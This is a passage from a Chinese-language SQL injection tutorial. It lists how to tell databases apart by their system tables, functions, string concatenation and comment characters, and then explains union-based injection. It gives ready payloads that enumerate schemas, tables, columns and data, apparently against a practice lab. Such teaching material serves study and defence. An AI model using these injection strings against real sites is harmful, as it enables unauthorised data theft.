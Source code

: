 #### 3.3.3 数据库特有库名

**MySQL**：information_schema

**Access**：mysysobjects

**Oracle**：sys.user_tables

**MSSQL**：sysobjects

#### 3.3.4 数据库特有函数

**sql server**：@@pack_received @@rowcount

**mysql**：connection_id()、last_insert_id()、row_count()

**orcale**：bitand(1,1)

**postgresql**： select extract(dow from now())

在 mssql 中可以调用 substring。oracle 则只可调用 substr

#### 3.3.5 字符串处理方式

**mssql**：`id=1 and 'a'+'b'='ab'`

**mysql**：`id=1 and 'a'+'b'='ab' ， 'ab'=concat('a','b')`

**oracle**：`id=1 and 'a'+'b'='a'||'b' ，'ab'=concat('a','b')`

**postgresql**：`id=1 and 'a'+'b'='a'||'b' ,'ab'=concat('a','b')`

#### 3.3.6 特殊符号及注释

1. `null` 和 `%00` 是 access 支持的注释
2. `#` 是 MySQL 中的注释符，返回错误说明该注入点可能不是 MySQL，另外也支持`--`，和 `/* */` 注释
3. `--` 和 `/* */` 是 Oracle，SQL server 和 MySQL 支持的注释符，如果正常，说明可能就是这三个数据库其中之一。
4. `;` 是子句查询标识符，在 Oracle 中不支持多行查询，返回错误，很可能是 Oracle 数据库。

## 4、联合查询注入

### 4.1 原理

{{< admonition info>}}
union操作用于合并两个查询或者多个select语句的结果集

TIP：union内部的select语句必须有相同数量的列，当不同时不能正常执行会出现报错信息

<img src="https://s1.vika.cn/space/2023/03/31/3155fad5e12943cd8caf931c0358777c" style="zoom:67%;" />

{{< /admonition >}}

### 4.2 常用语句

```sql
--库名
union select 1,group_concat(schema_name),3 from information_schema.schemata
union select 1,(select schema_name from information_schema.schemata limit 0,1),3
--表名
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'
--列名
union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'
--数据
union select 1,group_concat(id,email_id),3 from security.emails
```
